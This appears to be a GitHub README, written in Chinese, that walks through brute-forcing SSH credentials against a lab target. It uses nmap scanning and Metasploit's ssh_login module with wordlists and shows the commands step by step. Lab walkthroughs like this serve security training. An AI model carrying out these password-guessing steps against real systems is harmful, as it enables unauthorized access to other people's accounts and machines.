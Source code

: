 # brute-force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  > * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  > * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
  > ```shell
  > namp -sV xxx.xxx.xxx.xxx
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/1.png)
* step2：開啟Metasploit
  > ```shell
  > msfconsole
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/2-1.png)
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  > * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
  > ```shell
  > search ssh_login
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/3.png)
* step4：查看使用的模組腳本需要設定的參數
  > * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  > ```shell
  > option
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/4.png)
* step5：設定目標主機IP
  > ```shell
  > set rhost xxx.xxx.xxx.xxx
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/5.png)  
* step6：目標主機port號
  > ```shell
  > set rport xx
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  > * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
  > ```shell
  > exploit
  > ```
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/13.png)
  > * 執行成功後會有一個session存在著
  > ![image](https://github.com/WanShannn/Exploit-SSH/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
